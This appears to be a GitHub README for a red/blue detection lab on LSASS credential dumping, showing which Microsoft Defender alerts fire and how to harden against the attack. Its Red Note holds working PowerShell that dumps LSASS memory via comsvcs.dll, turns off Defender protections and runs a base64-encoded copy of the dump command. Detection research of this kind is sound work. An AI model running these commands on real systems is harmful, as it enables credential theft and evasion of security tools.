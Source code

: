 # LSASS dumping, MiniDump
Hackers might target LSASS to grab login credentials stored in its memory. 
After a user logs in, LSASS stores important credential info that can be stolen by attackers to move through a system using different authentication details.

Microsoft Defender for Endpoint and Defender Antivirus effectively prevent and detect LSASS dumping activities. 
Now, I'd like to demonstrate the detection perspective by ***capturing all activities and correlating multiple alerts into a single incident***.

## Red Note (test insights)
**PowerShell, LSASS credential dumping, Built-in Windows tool** 
```powershell
$lsassPID = (Get-Process -Name lsass).Id
cmd.exe /C "C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsassPID C:\temp\out.dmp full" 
```

**Attack Script**
- [x] Download a script ↓

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true -ExclusionPath "C:\" -DisableBlockAtFirstSeen $true -DisableEmailScanning $true -DisableScriptScanning $true -ExclusionExtension "exe"
    
$tempDir = "C:\temp"

if (-not (Test-Path $tempDir -PathType Container)) {
        New-Item -Path $tempDir -ItemType Directory
}
    
powershell.exe -e JABsAHMAYQBzAHMAUABJAEQAIAA9ACAAKABHAGUAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAE4AYQBtAGUAIABsAHMAYQBzAHMAKQAuAEkAZAANAAoAYwBtAGQALgBlAHgAZQAgAC8AQwAgACIAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFMAeQBzAHQAZQBtADMAMgBcAHIAdQBuAGQAbABsADMAMgAuAGUAeABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFMAeQBzAHQAZQBtADMAMgBcAGMAbwBtAHMAdgBjAHMALgBkAGwAbAAsACAATQBpAG4AaQBEAHUAbQBwACAAJABsAHMAYQBzAHMAUABJAEQAIABDADoAXAB0AGUAbQBwAFwAbwB1AHQALgBkAG0AcAAgAGYAdQBsAGwAIgA=
```
> [!Note]
> This script will perform the following actions:
> 1. Disable Microsoft Defender Antivrus tool
> 2. Create "C:\temp" for a dump file
> 3. LSASS dumping using the built-in Windows tool (Encoded by Base64)
> 
> Make sure that [MDE Tamper Protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide&ocid=magicti_ta_learndoc) is disabled.

## Alerts & Detections
After running the script, these alerts were generated and correlated into a single incident in Microsoft Defender XDR portal.
- [x] Suspicious PowerShell command line
- [x] Sensitive credential memory read
- [x] Suspicious process executed PowerShell command
- [x] Suspicious access to LSASS service
- [x] Process memory dump
- [x] Suspicious Process Discovery
- [x] Suspicious Microsoft Defender Antivirus exclusion
- [x] Attempt to turn off Microsoft Defender Antivirus protection

## Blue Note
- Turn on [Microsoft Defender Antvirus](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/next-generation-protection?view=o365-worldwide) (Including Real-Time Protection, Cloud Protection, Sample Submission and so on)
- Turn on [Tamper Protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide&ocid=magicti_ta_learndoc)
- Onboarding [Microsoft Defender for Endpoint](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/microsoft-defender-endpoint?view=o365-worldwide)

## Reference
- [OS Credential Dumping: LSASS Memory, T1003.001](https://attack.mitre.org/techniques/T1003/001/)
- [Detecting and preventing LSASS credential dumping attacks](https://www.microsoft.com/en-us/security/blog/2022/10/05/detecting-and-preventing-lsass-credential-dumping-attacks/)

#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.
